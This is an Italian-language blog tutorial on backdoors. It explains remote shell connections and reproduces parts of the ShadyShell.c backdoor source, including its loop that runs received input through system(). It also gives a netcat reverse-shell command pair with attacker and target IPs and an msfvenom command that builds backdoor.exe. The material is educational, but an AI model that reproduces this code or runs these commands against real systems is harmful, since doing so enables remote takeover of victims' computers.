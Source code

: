 ```yaml
---
title: Backdoor - Fondamenti di Sicurezza Informatica
date: 2022-12-04 00:00:00 -500
categories: [Tech]
tags: [tech]
image_path: /assets/
--- 
```


## Intro

Se vi siete mai interessati di sicurezza informatica, avrete sicuramente un’idea di come le backdoor funzionano e a cosa servono. A prescindere dalla tua preparazione, in questo articolo andrò a dissezionare tutto ciò che ti serve sapere sulle Backdoor.

In particolare vedremo:

1.  Funzionamento Backdoor
2.  Shadyshell.c | codice sorgente di una Backdoor scritta in C
3.  Creazione backdoor con msfvenom + connessione remota da terminale

Alla fine di questa lettura potrai spiegare ai tuoi amici le magie di un codice di queste proporzioni:

```c
if(bind(c,&s,sizeof(s))<0)ve("bind");dup2(c,1);dup2(c,2);s.sin_port=sizeof(u); if(recvfrom(c,&b,1024,0,&u,(int*)&(s.sin_port))<0)ve("socket"); if(connect(c,&u,sizeof(u))<0)ve("socket"); do{for(*v=b,p=0;**v&&((*v-b)<512||(p=*v));(*v)++)if(p||**v=='\r'||**v=='\n') {**v=0;break;}if(p)continue;system(b); recv(c,&b,1024,0);}while(1);exit(0);
```

e se per adesso ti sembra una utopia… non ti preoccupare. Io sono Matteo e ti guiderò in questo articolo conoscendo abbastanza bene le complicanze degli studi informatici-

Farò in modo di intrattenerti e di non dilungarmi in nozioni troppo specifiche, tediose o inutili.

# Funzionamento Backdoor

Una Backdoor è un software installato nel computer di una cybervittima in qualche modo. Finché è attiva, la backdoor fa in modo di inviare informazioni e ricevere **istruzioni** da un host remoto.

Fino a qui niente di spaventoso. Giusto? ﻿  
>Beh… se un Jimmy in Texas che prende il completo controllo del tuo PC non ti spaventa, dovresti riconsiderare un attimo quello che stai per leggere.

La semplicità e versatilità delle backdoor ha fatto in modo che quasi ogni software con nefaste intenzioni contenesse un pezzo di codice dedicato a questo.

Per ora vediamone in dettaglio in funzionamento:

-  Come le backdoor iniziano una connessione tra computer
-  Perché una backdoor rende il tuo PC una marionetta

## Come si crea la connessione tra i computer

Qualcuno di voi si starà chiedendo in che modo i due computer coinvolti nell’atto di scambiarsi dati comunicano.   
Le backdoor per le comunicazioni remote sfruttano il networking, gli indirizzi IP e le porte [0-36000].

Non appena la backdoor è in funzione si ottiene una sessione **shell**. Ogni istruzione, comando o funzione inviata attraverso la backdoor viene eseguita dalla vittima.

Ogni connessione internet che un computer stabilisce avviene grazie a procedure ideate dall’Organizzazione Internazionale della Standardizzazione [ISO]. Questi hanno deciso che ogni pacchetto di rete conterrà:

-   indirizzo IP sorgente
-   indirizzo IP destinatario
-   “Porta” sorgente
-   “Porta” destinatario

La vera e propria connessione si stabilisce solo se il computer della vittima “apre” una porta a noi attaccanti. Questo avviene quando la backdoor installata nel computer della vittima avvia un processo che fa esattamente questo: aprire una porta.

Normalmente un computer tende a rifiutare ogni connessione nefasta e non identificata. Semplicemente blocca ogni connessione che coinvolge una porta chiusa.

Cosa succede però nel momento in cui apriamo una porta in attesa di qualcosa?

Quando un qualsiasi host esterno (hacker) prova a comunicare attraverso quella porta… ecco che si può stabilire una connessione ed il computer vittima ci ascolta, adesso possiamo mandargli tutto ciò che vogliamo.

Adesso che la connessione è stabilita dobbiamo fare in modo che computer vittima **interpreti** quella serie di caratteri e di bit che stiamo comodamente digitando dalla nostra tastiera.

# Perché una backdoor rende il tuo PC una marionetta

Fin ora abbiamo visto come opera una backdoor quando viene eseguita da un computer. Ciò che manca al puzzle è comprendere in che modo i comandi inviati da noi vengono eseguiti dalla vittima.

Infatti questo non avviene in modo standard, deve essere il software backdoor ad inviare le nostre stringhe di caratteri ad un interprete per i comandi. 

Potrei semplicemente dirvi che il malware backdoor ha il compito di mantenere una connessione remota in modo da ricevere e salvare ogni carattere che mandato (dall'hacker) in un buffer o array, per poi eseguirlo con l’interprete di comandi locale. Invece vi mostro un pezzo di codice di una backdoor scritta in C.

```c
  do {
    for ( * v = b, p = 0; ** v && (( * v - b) < 512 || (p = * v));
      ( * v) ++)
      if (p || ** v == '\r' || ** v == '\n')

    {
      ** v = 0;
      break;
    }
    if (p) continue;
    system(b);
    recv(c, & b, 1024, 0);
  } while (1);
  exit(0);
}
```

Spiegazione del ciclo:

>Se non ci sono problemi di overflow con l’input remoto salvato in **b**:

```
esegui system(b);
```

>Aspetta per un altro pacchetto, metti di nuovo l’input remoto in **b** e ripeti.

Spaventoso, vero?

Questa backdoor si chiama ShadyShell.c ed è disponibile nell’archivio di malware di vx-underground.

# Come creare una backdoor con un comando

Se ti dicessi che con un solo comando puoi creare una backdoor per (quasi) ogni sistema vulnerabile?

Immaginiamo di avere come target un server Windows, vogliamo creare un software backdoor per avere una porta di accesso a questo sistema.

Normalmente risolverei un problema del genere scrivendo uno script o dei comandi BASH specifici.

Risoluzione con Bash & netcat:

```
# Target: 172.16.166.130
# Attacker: 192.168.1.116

# On Attacker: set a verbose(v) communication listener(l) on port(p) 4444 
nc -lvp 4444 

# On target: connect to host end execute(e) cmd.exe
nc.exe 192.168.1.116 -e cmd.exe
```

In questo caso però vogliamo creare un software che, quando eseguito, avvia una connessione diretta.

MSFvenom è un CLI-tool (strumento via terminale) che porta con sé un numero impressionante di impostazioni specifiche per la connessione remota tra due host.

In pratica MSFvenom genera un file backdoor con le nostre preferenze di: payload, formato, target…

```
msfvenom -p [payload] LHOST=[our IP] LPORT=[our port] -f exe > backdoor.exe
```

Il comando creerà un file che una volta eseguito dalla vittima connetterà il computer infetto al nostro (o viceversa).   
Vedi: [bind & reverse shell | differenze e usi comuni]

semplice… anche troppo. Immagina cosa puoi fare con un [Cheat Sheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom).